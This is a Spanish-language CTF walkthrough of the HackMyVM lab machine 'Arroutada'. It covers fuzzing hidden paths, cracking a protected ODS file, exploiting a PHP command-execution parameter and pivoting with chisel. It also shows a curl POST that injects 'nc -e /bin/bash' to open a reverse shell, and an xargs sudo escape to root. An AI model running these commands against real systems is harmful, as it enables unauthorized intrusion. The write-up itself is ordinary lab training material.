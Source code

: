 ```yaml
---
layout      : post
title       : "Arroutada - HackMyVm"
author      : elc4br4
image       : /assets/images/HMV/Arroutada-HackMyVM/Arroutada.webp
optimized_image : /assets/images/HMV/Arroutada-HackMyVM/Arroutada.webp
category    : [ HackMyVM ]
tags        : [ Linux ]
description : En esta ocasión resolvemos la máquina Arroutada creada por Rijaba1 que está disponible en la plataforma de HackmyVm.
---
```


En esta ocasión resolvemos la máquina Arroutada creada por Rijaba1 que está disponible en la plataforma de HackmyVm.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
3. [Escalada de Privilegios](#priv-esc).

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Comenzamos como siempre lanzando nmap para realizar un reconocimiento de puertos.

`nmap -p- -Pn -n --min-rate 5000 192.168.0.30`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled.png)

A continuación lanzo una serie de scripts básicos de nmap (sC) y el parámetro sV para descubrir los servicios y versiones que corren en cada puerto, en este caso solo en el puerto 80, ya que es el único puerto abierto.

`nmap -p80 -sCV -n -Pn 192.168.0.30`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%201.png)

Tenemos un servidor **apache httpd 2.4.54** y poco más, por lo que comienzo a enumerar.

# Explotación [#](explotación) {#explotación}

Tras acceder desde el navegador encontré lo siguiente:

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%202.png)

Parece una simple imagen pero podría tener algo escondido por lo que decido descargarla y lanzar herramienta **exiftool** para **analizar los metadatos de la imagen** y buscar posibles pistas.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%203.png)

Y encuentro una ruta “**/scout**” por lo que accedo a ella desde el navegador.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%204.png)

Vemos otra ruta **/scout/******/docs** pero nos falta descubrir la ruta que hay entre medias, por lo que toca **fuzzear** y para ello usaré **wfuzz**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%205.png)

Y encuentro la ruta **/j2**, por lo que ya tengo la ruta completa asique accedo a la misma desde el navegador.

Al accede encuentro un montón de archivos.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%206.png)

En el archivo **pass.txt** no hay nada de interés pero el archivo **shellfile.ods** si me llama la atención, la **extensión .ods** es de **LibreOffice** por lo que lo descargo y lo abro pero me pide contraseña…

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%207.png)

Para poder craquearlo existe una utilidad de **John The Ripper** llamada **libreofficejohn2.py** con la que puedo generar el hash y craquearlo después.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%208.png)

Ahora lo crackeo con John y obtengo la contraseña.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%209.png)

**john11** es la contraseña.

Abro el archivo y encuentro esto.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2010.png)

Encuentro otra ruta, esta vez un archivo php, por lo que podría haber un **RCE** asique pruebo a fuzzear de nuevo…

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2011.png)

Veo que el parámetro a es el que necesito para ejecutar el RCE pero al intentarlo me arroja otro un error.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2012.png)

Se me ocurre combinar el parámetro **a con el b** y **fuzzear** de nuevo.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2013.png)

Y por suerte lo consigo.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2014.png)

Por lo que ahora intento obtener acceso al sistema introduciendo una **reverse shell en netcat**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2015.png)

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2016.png)

Consigo acceso a la máquina pero primero he de realizar el tratamiento de la tty.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
xterm-256color
export XTERM=xterm-256color
export SHELL=bash
```

Tras **actualizar la tty** echo un vistazo a los usuarios existentes en la máquina y veo que existe el usuario **drito**, por lo que lo primero será migrarme a este usuario asique procedo a enumerar un poco…

Lo primero que hago es buscar **procesos existentes** pero no veo nada que me llame la atención, por lo que mi siguiente paso es buscar algún puerto abierto…

Hago uso del comando **netstat** pero no está instalado en el sistema por lo que pruebo a usar `ss -tulpn` y veo que existe el **puerto 8000** abierto.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2017.png)

Para poder acceder a este puerto he de usar **chisel** o parecidos para poder efectuar un **Port Forwarding**.

Paso el binario de **chisel** a la máquina víctima y efectúo los siguientes comandos.

- En la máquina atacante

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2018.png)

- En la máquina víctima

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2019.png)

Ahora ya puedo acceder al puerto 8000 desde mi navegador, y encuentro lo siguiente.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2020.png)

Es una cadena ofuscada en Brainfuck, por lo que la desofusco y veo el contenido.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2021.png)

- all HackMyVM hackers!!

Pero no me sirve de nada por lo que regreso al navegador e inspecciono el código fuente por si me he dejado algo por ahí…

Y por suerte encuentro una ruta **/priv.php**

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2022.png)

Accedo a la ruta e inspecciono el código fuente

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2023.png)

Nos dice que falta un parámetro (command) y podemos ver que el propio parámetro ha de ir en json, por lo que vamos a probar a hacerle una petición POST con curl usando el parámetro command y metiendo la data en json.

Esto lo hago de la siguiente forma:

```bash
curl -X POST "http://127.0.0.1:8000/priv.php" -d ´{"command": "whoami;id;hostname"}´             
```

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2024.png)

Al ver que funciona lo que hago es intentar ganar acceso a la máquina a través de una reverse shell en netcat.

```bash
curl -X POST "http://127.0.0.1:8000/priv.php" -d ´{"command": "nc -e /bin/bash 192.168.0.18 1234"}´
```

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2025.png)

Consigo ganar acceso a la máquina como el usuario **drito**, por lo que lo siguiente paso es escalar privilegios a root, pero antes como de costumbre lo primero es actualizar la tty.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
xterm-256color
export XTERM=xterm-256color
export SHELL=bash
```
# ESCALADA DE PRIVILEGIOS [#](priv-esc) {#priv-esc}

Tras actualizar la tty lanzo el comando `sudo -l.`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2026.png)

Puedo ejecutar el binario xargs como root sin contraseña por lo que lo primero que se me ocurre al tratarse de un binario es dirigirme a [gtfobins](https://gtfobins.github.io/).

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2027.png)

Ejecuto el comando y… me convierto en **root**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2028.png)

Gracias Rijaba por esta máquina!!!! 